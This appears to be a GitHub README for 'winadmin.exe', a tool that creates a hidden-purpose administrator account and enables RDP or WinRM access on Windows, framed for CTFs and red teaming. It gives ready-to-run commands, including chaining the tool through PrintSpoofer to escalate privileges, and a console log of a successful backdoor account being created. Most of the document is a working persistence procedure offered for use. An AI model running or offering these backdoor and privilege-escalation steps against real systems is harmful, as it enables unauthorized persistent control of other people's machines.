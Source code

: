 # winadmin.exe

`winadmin.exe` is a tool designed for creating a backdoor user and enabling remote access for the user in CTFs (Capture The Flag) and Red Teaming engagements. It allows you to quickly add a new user to the administrators group and enable remote access protocols like RDP (Remote Desktop Protocol) and WinRM (Windows Remote Management) on Windows systems.

## Usage

```bash
.\winadmin.exe -u <username> -p <password> [-e {rdp|winrm}]
```
OR
```bash
.\PrintSpoofer.exe -i -c "C:\Windows\Temp\winadmin.exe -u <username> -p <password> [-e {rdp|winrm}]"
```

- `-u <username>`: Specify the username for the new user.
- `-p <password>`: Specify the password for the new user.
- `-e {rdp|winrm}`: Enable remote access (RDP or WinRM) for the new user. Use `rdp` for Remote Desktop Protocol access or `winrm` for Windows Remote Management access.

**Note:** The tool must be executed with administrator privileges.

## Examples

1. To add a new user to the administrators group:

```bash
.\winadmin.exe -u kryptohaker -p P@ssw0rd1
```

2. To add a new user to the administrators group and enable RDP access:

```bash
.\winadmin.exe -u kryptohaker -p P@ssw0rd1 -e rdp
```

3. To add a new user to the administrators group and enable WinRM access:

```bash
.\winadmin.exe -u kryptohaker -p P@ssw0rd1 -e winrm
```

## Example

```
PS C:\Temp> .\winadmin.exe
.\winadmin.exe
Usage: C:\Temp\winadmin.exe -u <username> -p <password> [-e {rdp|winrm}]
  -u <username> : Specify the username for the new user.
  -p <password> : Specify the password for the new user.
  -e {rdp|winrm} : Enable remote access (RDP or WinRM) for the new user.
PS C:\Temp>
PS C:\Temp> .\PrintSpoofer.exe -i -c "C:\Temp\winadmin.exe -u kryptohaker -p P@ssw0rd1 -e rdp"        
.\PrintSpoofer.exe -i -c "C:\Temp\winadmin.exe -u kryptohaker -p P@ssw0rd1 -e rdp"                    
[+] Found privilege: SeImpersonatePrivilege                                                           
[+] Named pipe listening...                                                                           
[+] CreateProcessAsUser() OK                                                                          
The command completed successfully.                                                                   
                                                                                                      
The command completed successfully.                                                                   
                                                                                                      
The command completed successfully.                                                                   
                                                                                                      
The operation completed successfully.                                                                 
                                                                                                      
Updated 3 rule(s).                                                                                    
Ok.                                                                                                   
                                                                                                      
****************************************************                                                  
***** winadmin.exe - Backdoor User Creation Tool ******                                               
****************************************************                                                  
Author: Kryptohaker                                                                                   
URL: https://github.com/kryptohaker                                                                   
****************************************************                                                  
                                                                                                      
[+] kryptohaker user was successfully created.                                                        
[+] kryptohaker user was added to the local administrators' group.                                    
[+] RDP access was enabled for kryptohaker user.                                                      
PS C:\Temp> net user kryptohaker 

net user kryptohaker
User name                    kryptohaker
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            8/3/2023 1:18:40 AM
Password expires             9/14/2023 1:18:40 AM
Password changeable          8/4/2023 1:18:40 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators       *Remote Management Use
                             *Users
Global Group memberships     *None
The command completed successfully.
```

## Disclaimer

This tool is intended for educational and ethical purposes only. Misuse of this tool for any malicious or illegal activities is strictly prohibited. The author is not responsible for any damage or loss caused by the misuse of this tool.

## License

This project is licensed under the [MIT License](LICENSE).
